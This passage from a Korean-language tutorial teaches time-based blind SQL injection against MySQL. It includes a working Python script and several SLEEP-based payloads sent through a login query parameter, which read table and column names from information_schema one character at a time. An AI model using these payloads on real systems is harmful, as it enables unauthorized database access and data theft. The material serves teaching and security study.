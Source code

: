 ```py
    END_TIME    = time.time()
    if END_TIME - START_TIME > SLEEP_TIME:
        RESULT_LENGTH = i
        break
print(f'Number of tables : {RESULT_LENGTH}')

for i in range(RESULT_LENGTH):
    TABLE_NAME_LENGTH    = 0
    TABLE_NAME           = ''
    for j in range(100):
        QUERY       = requests.utils.quote(f'\' OR IF(LENGTH((SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA=\'test\' LIMIT {i},1))={j},SLEEP({SLEEP_TIME}),SLEEP(0))#')
        URL         = TARGET + f'?userid={QUERY}&password=123'
        START_TIME  = time.time()
        REQUEST     = requests.get(url=URL)
        END_TIME    = time.time()
        if END_TIME - START_TIME > SLEEP_TIME: TABLE_NAME_LENGTH = j
    for j in range(TABLE_NAME_LENGTH):
        for s in string.printable.strip():
            QUERY   = requests.utils.quote(f'\' OR IF(ASCII(SUBSTR((SELECT TABLE_NAME FROM information_schema.TABLES WHERE TABLE_SCHEMA=\'test\' LIMIT {i},1),{j+1},1))={ord(s)},SLEEP({SLEEP_TIME}),SLEEP(0))#')
            URL     = TARGET + f'?userid={QUERY}&password=123'
            START_TIME  = time.time()
            REQUEST     = requests.get(url=URL)
            END_TIME    = time.time()
            if END_TIME - START_TIME > SLEEP_TIME: TABLE_NAME += s
    print(f'{TABLE_NAME}')
```

결과는 다음과 같다.

	user

## **컬럼 이름 확인**

참과 거짓의 결과 정보를 이용하여 컬럼의 이름을 획득해보자.

먼저 COUNT를 이용하여 컬럼의 수를 확인하자.

SELECT의 이중쿼리의 경우 출력결과가 1개로 나와야 하며 괄호를 이용하여 감싸준다.

URL 인코딩을 시키기 위해 requests.utils.quote를 사용한다.

SLEEP을 이용하기 때문에 참이면 일정 시간동안 딜레이가 걸릴 것이다.

```py
QUERY       = requests.utils.quote(f'\' OR IF((SELECT COUNT(COLUMN_NAME) FROM information_schema.COLUMNS WHERE TABLE_SCHEMA=\'test\' AND TABLE_NAME=\'user\')={i},SLEEP({SLEEP_TIME}),SLEEP(0))#')
```

컬럼 수만큼 반복하여 다음으로 컬럼의 문자열 길이를 알아내자.

```py
QUERY       = requests.utils.quote(f'\' OR IF(LENGTH((SELECT COLUMN_NAME FROM information_schema.COLUMNS WHERE TABLE_SCHEMA=\'test\' AND TABLE_NAME=\'user\' LIMIT {i},1))={j},SLEEP({SLEEP_TIME}),SLEEP(0))#')
```
